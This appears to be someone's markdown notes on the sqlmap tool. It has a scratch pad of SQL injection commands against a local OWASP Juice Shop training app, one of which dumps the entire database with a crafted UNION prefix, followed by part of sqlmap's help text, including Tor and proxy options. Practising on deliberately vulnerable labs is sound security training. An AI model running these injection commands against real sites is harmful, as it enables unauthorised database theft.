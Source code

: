 # sqlmap

## Scratch pad

sqlmap --url="http://localhost:3000/rest/products/search?q=" -p q --dbms=sqlite

sqlmap --url="http://localhost:3000/rest/products/search?q=" -dbs --level=3 --risk=3
sqlmap --url="http://localhost:3000/rest/products/search?q=test" --dbms=sqlite --schema


sqlmap -u 'http://localhost:3000/rest/products/search?q=test' -p 'q' --dbms='sqlite' --technique U --prefix "')) " --level 5 --risk 3 --dump-all --no-cast --no-escape --flush

https://security.stackexchange.com/questions/207267/how-do-i-use-sqlmap-to-dump-the-owasp-juice-shop-schema

## Help

### Basic
  
          ___
         __H__
   ___ ___[(]_____ ___ ___  {1.5.10#stable}
  |_ -| . [']     | .'| . |
  |___|_  [']_|_|_|__,|  _|
        |_|V...       |_|   https://sqlmap.org
  
  Usage: python3 sqlmap [options]
  
  Options:
    -h, --help            Show basic help message and exit
    -hh                   Show advanced help message and exit
    --version             Show program's version number and exit
    -v VERBOSE            Verbosity level: 0-6 (default 1)
  
    Target:
      At least one of these options has to be provided to define   the
      target(s)
  
      -u URL, --url=URL   Target URL (e.g. "http://www.site.com/  vuln.php?id=1")
      -g GOOGLEDORK       Process Google dork results as target   URLs
  
    Request:
      These options can be used to specify how to connect to the   target URL
  
      --data=DATA         Data string to be sent through POST (e.  g. "id=1")
      --cookie=COOKIE     HTTP Cookie header value (e.g.   "PHPSESSID=a8d127e..")
      --random-agent      Use randomly selected HTTP User-Agent   header value
      --proxy=PROXY       Use a proxy to connect to the target URL
      --tor               Use Tor anonymity network
      --check-tor         Check to see if Tor is used properly
  